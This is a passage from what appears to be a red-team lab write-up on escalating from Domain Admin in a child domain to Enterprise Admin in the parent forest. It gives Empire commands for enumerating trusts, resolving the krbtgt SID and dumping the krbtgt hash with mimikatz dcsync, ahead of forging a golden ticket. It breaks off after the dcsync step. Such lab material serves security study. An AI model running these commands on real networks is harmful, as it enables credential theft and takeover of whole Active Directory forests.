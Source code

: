 ### Checking Trust Relationships

Once in DC-RED, let's check any domain trust relationships:

```csharp
usemodule situational_awareness/network/powerview/get_domain_trust
```

![](../../.gitbook/assets/empire-trusts.png)

We see that the `red.offense.local` is a child domain of `offense.local` domain, which is automatically trusting and trusted (two way trust/bidirectional) with `offense.local` - read on.

### From DA to EA

We will now try to escalate from DA in `red.offense.local` to EA in `offense.local`. We need to create a golden ticket for `red.offense.local` and forge it to make us an EA in `offense.local`.

First of, getting a SID of a `krbtgt` user account in `offense.local`:

```csharp
(Empire: powershell/situational_awareness/network/powerview/get_domain_trust) > usemodule powershell/management/user_to_sid
(Empire: powershell/management/user_to_sid) > set Domain offense.local
(Empire: powershell/management/user_to_sid) > set User krbtgt
(Empire: powershell/management/user_to_sid) > run
```

![](../../.gitbook/assets/empire-krbtgt-sid.png)

After getting a SID of the `offense.local\krbtgt`, we need to get a password hash of the `krbtgt` account in the compromised DC `DC-RED` (we can extract it since we are a domain admin in `red.offense.local`):

```csharp
(Empire: powershell/management/user_to_sid) > usemodule powershell/credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > set user red\krbtgt
(Empire: powershell/credentials/mimikatz/dcsync) > execute
```
